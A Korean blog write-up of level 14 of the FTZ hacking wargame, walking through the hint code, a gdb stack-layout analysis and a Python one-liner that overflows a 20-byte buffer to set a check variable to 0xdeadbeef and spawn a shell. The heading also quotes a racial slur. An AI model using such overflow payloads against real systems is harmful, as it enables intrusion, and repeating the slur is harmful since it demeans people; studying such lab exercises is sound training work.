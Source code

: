 ```yaml
---
title:  "[FTZ] level 14"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-18 18:39:31

---
```


# level 14

**level14 / what that nigga want?**

힌트

![image](https://user-images.githubusercontent.com/69203345/146631165-0286625e-073d-46f0-9a9b-863146d593bb.png)

버퍼 오버플로우, 포맷스트링 학습에 도움이 된다고 적혀있다.

정수형 crap  
정수형 check  
buf에 20바이트 크기 할당  
fgets로 문자열을 받는데 45바이트 만큼만 받음  
check 가 0xdeadbeef일때 if 문 실행  
level15의 pid, /bin/bash 실행

/tmp로 복사해서 gdb분석

![image](https://user-images.githubusercontent.com/69203345/146633619-f6a0afc4-80fa-4851-8104-d240af4d14bb.png)

"그 시간"

0x080484a1 <main+17>:    lea    eax, [ebp-56]

buf에서 ebp까지의 거리= 56

0x080484ad <main+29>:    cmp    DWORD PTR [ebp-16], 0xdeadbeef

check 에서 ebp 까지의 거리 16

낮은주소

buf[20] [ebp-56]  
dummy[20]  
check[4] [ebp-16]  
crap[4]+dummy[8]   
sfp[4]  
ret[4]

높은주소

페이로드  
buf~check 까지의 거리 + 변조할값
> (python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146635091-6ad8ad0c-2996-4833-809b-bafeee270d13.png)

